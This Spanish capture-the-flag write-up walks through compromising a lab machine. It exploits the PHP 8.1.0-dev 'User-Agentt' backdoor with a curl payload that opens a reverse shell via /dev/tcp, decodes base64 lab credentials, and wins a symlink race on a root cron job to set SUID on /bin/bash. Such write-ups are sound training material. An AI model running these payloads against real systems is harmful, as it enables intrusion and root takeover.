**Dificultad:** Difícil (★★★★★☆☆☆)

**Categoría:** Web / Descubrimiento de Credenciales / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 24-06-2026

**Plataforma**: WhoAmI-Labs.com

---
# Descripción
Laboratorio pedagógico de Cron (Nivel Hard). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: DUMAS, requiriendo obtener acceso inicial y comprometer el sistema.

---

### 1. Fase de Reconocimiento y Enumeración

- **Escaneo de Puertos (`nmap`):**

- Lanzamiento de un escaneo general y luego uno dirigido con scripts de reconocimiento (`-sC`) y versiones (`-sV`).
Comando utilizado:
```
nmap -sV -sC -p- --min-rate 5000 172.17.0.2 -oN scan_dumas.txt
```



- **Resultado:** Identificación de los puertos abiertos, destacando el puerto **80 (HTTP)** y el puerto **22 (SSH)**.

**1.2 Enumeración Web (`gobuster` / Dirbuster):**

- Fuzzing de directorios y archivos en el servidor web para encontrar paneles de administración, archivos ocultos o rutas de interés.

Comando Utilizado:
```
 gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,bak,old,js,json,db
```

Puesto que /logs y /backup presentaban paginas/carpetas vacias, se procede a la inspeccion web, no encontrando mucho de utilidad en el codigo fuente, pero la misma web nos da una pista importante:


---
### 2. Análisis Web y Vector de Entrada (Acceso Inicial)

- **Identificación del Componente Vulnerable:**

- Al analizar las cabeceras HTTP o la estructura del sitio, se detectó que el servidor corría bajo la versión **PHP 8.1.0-dev**.
*info:* https://flast101.github.io/php-8.1.0-dev-backdoor-rce/

---

**Explotación del Backdoor de PHP:**

- Esta versión específica de desarrollo posee un backdoor conocido en el encabezado `User-Agentt` (con doble 't').

- Se envió una petición modificada para ejecutar comandos de forma remota (**RCE**), lo que nos dio la primera _Shell reversa_ como el usuario del servidor web (`www-data`).

Comando Utilizado:
```
curl -H "User-Agentt: zerodium system('id');" http://172.17.0.2/
```


El siguiente paso fue, enviar una peticion para ejecutar una shell reverse, lo siguiente fue:

```
Paso 1:
-Abrir una shell a la espera con:
nc -lvnp 4444

Paso 2:
-Enviar la peticion, con lo siguiente:
curl -H "User-Agentt: zerodium system('bash -c \"bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\"');" http://172.17.0.2/ 
```
Logrando el acceso:


---
### 3. Enumeración Local y Pivotaje entre Usuarios

- **Descubrimiento del archivo `.backupp`:**

- Inspeccionando el sistema con `www-data`, encontramos un archivo oculto cifrado o codificado llamado `.backupp`, en la carpeta /var/www/html/backup, con la siguiente cadena:

```
YXRob3M6MjM0ZjMyYSEjNzg1CnBvcnRob3M6Q1BBU1M3ODQhV0QxCmFyYW1pczpOT0NSWTc4NCEyMiMhCmRhcnRhZ25hbjphbG1lbmRyYQ==
```

- **Descifrado en Base64**

- La cual reveló una lista de credenciales asociadas a la temática de los mosqueteros (`athos`, `porthos`, `aramis`, `dartagnan`).

```
athos:234f32a!#785
porthos:CPASS784!WD1
aramis:NOCRY784!22#!
dartagnan:almendra
```
- **Movimiento Lateral (Pivotaje):**

- Utilizando el acceso por SSH, se validaron las credenciales para saltar de usuario en usuario hasta establecernos firmemente con el usuario **`dartagnan`**.
   
- **Las carpetas de las armas:**

- Inspección de los directorios domésticos (`arco`, `espada`, etc.), tambien los directorios ajenos de los demas mosqueteros, encontrando carpetas en cada una de ellas que contenian las mismas notas.txt, las cuales solo fueron para despistar, ya que teniamos las contraseñas de acceso, pero al hacer una siguiente inspección, en la carpeta /home/dartagnan, se observo lo siguiente (De pura suerte):

La cual luego de un rato desapareció, pero volvió a aparecer y pudimos leerla, lo cual nos dice que estamos ante una tarea programada que podría ser explotable para escalar privilegios



**Objetivo Logrado, captura de la bandera:** *FLAG{un0_p4r4_t0d0s_t0d0s_p4r4_un0}*

---
---

### **PARTE 2: TAREAS PROGRAMADAS Y ESCALADA DE PRIVILEGIOS (OPCIONAL)**

Ya que estamos ante una tarea programada que crea un archivo en la carpeta /home de dartagnan y luego la borra, se procede a la investigación de archivos cron para ver la posibilidad de escalada 
de privilegios o no.

---
### 1. Análisis de Tareas Programadas (Cron Jobs)

Revisando las carpetas cron, se identifico un archivo llamado "flag_backup" en /etc/cron.d:


- **Descubrimiento de Scripts de Root:**

- Se identificó una tarea de Cron corriendo con privilegios de **`root`** que llamaba a dos scripts en `/usr/local/bin/`:
   
    - `backup_flag.sh`: Copiaba la flag de root a la carpeta de dartagnan (`flag_backup.txt`) y le aplicaba un `chown` para cambiar el dueño a dartagnan.
        
        - `cleanup_flag.sh`: Eliminaba el archivo de respaldo pocos segundos después.


### 2. Escalada de Privilegios: La Carrera del Symlink

- **Intento e Hipótesis del PATH Hijacking:**
    
    - Analizamos si el script llamaba a comandos como `date` de forma relativa y si nuestro `$PATH` prioritario (`/home/dartagnan/bin`) era heredado, hipótesis que se descartó al ver que el entorno de Cron corría aislado.
        
- **Explotación de la Condición de Carrera (_Symlink Race Condition_):**
    
    - **El Vector:** El comando `chown` ejecutado por `root` sobre un enlace simbólico no cambia el dueño del enlace, sino del archivo real al que apunta.
        
    - **La Técnica:** Lanzamos un bucle infinito en Bash (`while true; do ln -sf ...; done`) para ametrallar el sistema. El objetivo era crear un enlace simbólico llamado `flag_backup.txt` que apuntara directamente al script del sistema `/usr/local/bin/cleanup_flag.sh`.

---

```
Pasos a seguir para lograr que esta tecnica te convierta en root:
Paso 1:
-Lanzar el bucle while con lo siguiente:

while true; do ln -sf /usr/local/bin/cleanup_flag.sh /home/dartagnan/flag_backup.txt; done

*Esperar uno o dos minutos antes de acabar con el bucle*

Paso 2:
-Verificar que /usr/local/bin/cleanup_flag.sh haya cambiado dueños

Paso 3:
-Preparar el payload:
Se utilizaron las siguientes instrucciones para crear un payload en la carpeta /tmp:
echo $'#!/bin/bash\nchmod u+s /bin/bash' > /tmp/payload.sh
chmod +x /tmp/payload.sh

***Importante: Borrar el enlace simbolico (flag_backup.txt) de la carpeta /home/dartagnan, ya que si no backup_flag.sh escribira el contenido de /root/root.txt (la flag) en cleanup_flag.sh, borrando el payload ***

Paso 4:
-Lo siguiente simplemente fue copiar el payload reemplazando cleanup_flag.sh:
cp /tmp/payload.sh /usr/local/bin/cleanup_flag.sh
-Volver a agregarle los permisos de ejecucion, esta vez a cleanup_flag.sh:
chmod +x /usr/local/bin/cleanup_flag.sh

Paso 5:
-Esperar a que se ejecute flag_backup (1 o 2 mins) o monitorear el SUID en bash, esperando que pase a ver la "s" (-rwsr-xr-x root root /bin/bash) con l siguiente instrucción:
watch -n 1 ls -la /bin/bash

Paso 6:
Completado lo anterior, simplemente ejecutar la orden "bash -p" para obtener una 
shell root.

```

**El Resultado:** Le ganamos la carrera al microsegundo del Cron. Cuando `root` ejecutó el `chown`, el enlace ya apuntaba al script, transfiriéndole la propiedad de `/usr/local/bin/cleanup_flag.sh` a nuestro usuario `dartagnan`. Lo que nos permitio modificarlo a gusto para ser ejecutado como root.




